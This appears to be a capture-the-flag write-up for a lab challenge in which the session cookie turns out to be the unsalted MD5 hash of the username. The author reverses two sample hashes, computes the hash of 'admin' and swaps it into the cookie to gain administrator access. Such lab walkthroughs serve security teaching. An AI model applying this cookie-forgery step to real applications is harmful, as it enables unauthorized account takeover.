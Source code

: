 # Write Up

## Challenge name
Authentication 02

## description
This example is similar to the previous example.
As soon as you receive a cookie from an application, it is always good to see what it looks like.

Try to crack it using a password cracker or try to just Google it. From there you should be able to generate a valid cookie for the user admin..

## solution
- go to the url
- create a new user
  - user:password
- we get a cookie for "user"
```
{"url":"https://ptl-fe306b2f339c-92a9817a8796.libcurl.me","cookies":[{"domain":"ptl-fe306b2f339c-92a9817a8796.libcurl.me","hostOnly":true,"httpOnly":false,"name":"auth","path":"/","sameSite":"unspecified","secure":false,"session":true,"storeId":"0","value":"ee11cbb19052e40b07aac0ca060c23ee"}]}
```
and a value for the user, the value is encypted
```
..."value":"ee11cbb19052e40b07aac0ca060c23ee"
```
- as a test I created a new user
  - user2:pass
```
{"url":"https://ptl-fe306b2f339c-92a9817a8796.libcurl.me","cookies":[{"domain":"ptl-fe306b2f339c-92a9817a8796.libcurl.me","hostOnly":true,"httpOnly":false,"name":"auth","path":"/","sameSite":"unspecified","secure":false,"session":true,"storeId":"0","value":"7e58d63b60197ceb55a1c487989a3720"}]}
```
again, an encryspted value, same length
```
..."value":"7e58d63b60197ceb55a1c487989a3720"
```
-using CyberChef and "analize hash" we get
```
Based on the length, this hash could have been generated by one of the following hashing functions:
MD5
MD4
MD2
HAVAL-128
RIPEMD-128
Snefru
Tiger-128
```
- trying first for an md5 hash
- using an md5 hash reverser
- reversing this values
  - ee11cbb19052e40b07aac0ca060c23ee
  - the result is "user"
- reversing the second value
  - 7e58d63b60197ceb55a1c487989a3720
  - the result is "user2"
- We can asume that the value is the result of hasing the user using MD5
- Now getting the md5 hash from the word "admin"
  - the result is 21232f297a57a5a743894a0e4a801fc3

- Now changing the value, replacing the hash for user for the hash of admin
  ```
  21232f297a57a5a743894a0e4a801fc3
  ```
- exporting the new cookie with the new values, gives us admin access

## flag
```
flag{}
```